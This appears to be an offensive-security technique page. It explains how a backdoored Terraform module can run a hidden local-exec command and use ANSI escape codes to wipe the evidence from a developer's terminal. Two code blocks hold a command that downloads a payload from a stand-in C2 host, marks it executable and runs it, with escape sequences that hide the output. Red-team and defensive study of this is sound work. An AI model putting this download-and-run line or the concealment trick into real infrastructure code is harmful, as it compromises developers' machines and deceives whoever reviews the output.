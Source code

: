 ```yaml
---
author_name: Nick Frichette
title: Terraform ANSI Escape
description: Using ANSI Escape Sequences to Hide Malicious Terraform Code
hide:
  - toc
---
```


Original Research: [Joern Schneeweisz](https://about.gitlab.com/blog/2022/06/01/terraform-as-part-of-software-supply-chain-part1-modules-and-providers/)

When performing a Terraform [apply](https://www.terraform.io/cli/commands/apply) from a local workstation, Terraform will output a list of resources it has created, updated, or deleted. Because this is taking place in a terminal, we can potentially use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) to alter this output. This would allow us to hide or obfuscate malicious activity, such as in a malicious Terraform module.

Take for example the following Terraform code.

``` tf title="main.tf"
resource "null_resource" "hypothetical_ec2_instance" {
}

resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload"
  }
}
```

In this example, we are using a [local-exec](https://www.terraform.io/language/resources/provisioners/local-exec) provisioner to run shell commands. If we were to backdoor a module or git repository storing Terraform configurations, and a developer were to download them and run them on their workstation, this would run the shell commands on their workstation.

!!! Tip
    As an alternative to local-exec, you can also use [external_provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

The problem is that this output would get displayed to the user, for example:

![Regular Output](/images/terraform/terraform_ansi_escape_evasion/regular_output.png)

To solve this, we can use ANSI escape codes to modify this output. It is worth noting that the specific sequences we will need to use will depend on the terminal type the victim is using. The following example is using [gnome-terminal](https://gitlab.gnome.org/GNOME/gnome-terminal) on Ubuntu.

```
\033[2K # Clears the current line
\033[A  # Moves the cursor to the previous line
```

So, we can modify our payload to the following to hide the malicious activity.

``` tf title="main.tf"
resource "null_resource" "blah" {
  provisioner "local-exec" {
    command = "wget -q http://evil.c2.domain/payload && chmod +x payload && ./payload; echo -e '\\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A \\033[2K \\033[A'"
  }
}
```

And this is the output:

![Modified Output](/images/terraform/terraform_ansi_escape_evasion/modified_output.png)
